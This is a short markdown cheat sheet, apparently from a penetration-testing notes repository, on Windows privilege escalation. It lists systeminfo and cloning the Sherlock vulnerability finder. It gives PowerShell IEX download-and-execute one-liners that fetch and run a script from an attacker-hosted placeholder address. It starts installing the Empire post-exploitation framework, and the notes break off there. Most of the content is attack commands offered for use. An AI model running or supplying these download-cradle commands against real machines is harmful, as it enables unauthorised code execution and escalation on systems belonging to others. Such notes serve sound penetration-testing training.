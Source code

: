 # Windows Privilege Escalation Techniques

### Check Windows version and hotfixes
`systeminfo`

### Use Sherlock to identify vulns
```
# Download Sherlock.ps1
git clone https://github.com/rasta-mouse/Sherlock.git

# Case insensitive grep search for the functions in Sherlock.ps1
grep -i function Sherlock.ps1

# Use the function Find-AllVulns, add it to the bottom of Sherlock.ps1 to call it
Find-AllVulns

# Host it on attacking box and execute through powershell using
IEX(New-Object Net.Webclient).downloadString('http://<attackingip>:<port>/Sherlock.ps1')

# If that doesn't work, call 64-bit powershell directly using
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).downloadString('http://<attackingip>:<port>/Sherlock.ps1')

# Check MS##-### for one that is vulnerable
```

### Using Empire for Priv Esc
```
# If you identify an MS##-### vuln for priv esc
git clone https://github.com/EmpireProject/Empire.git
./setup/install.sh

# 
```
